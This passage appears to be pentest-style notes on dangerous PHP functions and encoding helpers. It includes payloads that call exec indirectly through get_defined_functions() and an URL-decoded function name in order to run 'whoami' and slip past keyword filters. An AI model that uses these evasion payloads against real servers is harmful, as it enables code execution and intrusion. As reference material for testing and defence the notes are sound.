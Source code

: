 | `create_function()`      | Creates an anonymous function                                                                      | Code injection                                                                                                                                                                          |
| `assert()`               | Evaluates a string as a PHP expression                                                             | Code injection                                                                                                                                                                          |
| `dl()`                   | Loads a PHP extension at runtime                                                                   | Potential for arbitrary code execution                                                                                                                                                  |
| `pcntl_exec()`           | Executes a program in the current process space                                                    | Command injection                                                                                                                                                                       |
| Backticks (`\` `\`)      | Executes a command via shell                                                                       | Command injection                                                                                                                                                                       |
| `call_user_func()`       | Calls a user-defined function                                                                      | Potential for code injection                                                                                                                                                            |
| `call_user_func_array()` | Calls a user-defined function with parameters                                                      | Potential for code injection                                                                                                                                                            |
| get_defined_functions()  | Gets an array of all defined functions.                                                            | Call functions without using its name `echo get_defined_functions()["internal"][4]("hello world");`                                                                                     |
|                          |                                                                                                    | ```<br>echo get_defined_functions()["internal"][550]("whoami");<br><br><br><br>$arr = get_defined_functions ()['internal'] ;array_search('exec', $arr, True) ; print_r ($test) ;<br>``` |
| `array_search`           | Searches the array for a given value and returns the first corresponding key if successful<br><br> | `echo array_search(urldecode("%65%78%65%63"), get_defined_functions()["internal"]);<br>`                                                                                                |
|                          |                                                                                                    |                                                                                                                                                                                         |

## Chain get_defined_functions() and array_search together.
`echo get_defined_functions()["internal"][array_search(urldecode("%65%78%65%63"),get_defined_functions()["internal"])]("whoami");`



# PHP class and extends

In PHP, the keyword class is used to define a new class, which is a blueprint for creating objects. Classes encapsulate data and methods that operate on that data.

class test: This defines a new class named test.

extends tester: This indicates that test is a subclass of tester, inheriting its properties and methods. This is a way to implement inheritance in PHP, allowing test to reuse and extend the functionality of tester.

# PHP Encoding options

### PHP Encoding and Decoding Options

| Encoding Type             | Encode Function             | Decode Function             | Description                                                  |
| ------------------------- | --------------------------- | --------------------------- | ------------------------------------------------------------ |
| **HTML Encoding**         | `htmlspecialchars()`        | `htmlspecialchars_decode()` | Converts special characters to/from HTML entities            |
|                           | `htmlentities()`            | `html_entity_decode()`      | Converts all applicable characters to/from HTML entities     |
| **URL Encoding**          | `urlencode()`               | `urldecode()`               | Encodes/decodes a string to/from a URL                       |
|                           | `rawurlencode()`            | `rawurldecode()`            | Encodes/decodes a string for use in a URL, preserving spaces |
| **Base64 Encoding**       | `base64_encode()`           | `base64_decode()`           | Encodes/decodes data with Base64                             |
| **JSON Encoding**         | `json_encode()`             | `json_decode()`             | Encodes/decodes a value to/from JSON format                  |
| **Quoted-Printable**      | `quoted_printable_encode()` | `quoted_printable_decode()` | Converts a string to/from quoted-printable encoding          |
| **URL-encoded Functions** | `http_build_query()`        | `parse_str()`               | Generates/parses a URL-encoded query string                  |
| **Gzip Encoding**         | `gzencode()`                | `gzdecode()`                | Encodes/decodes data with Gzip compression                   |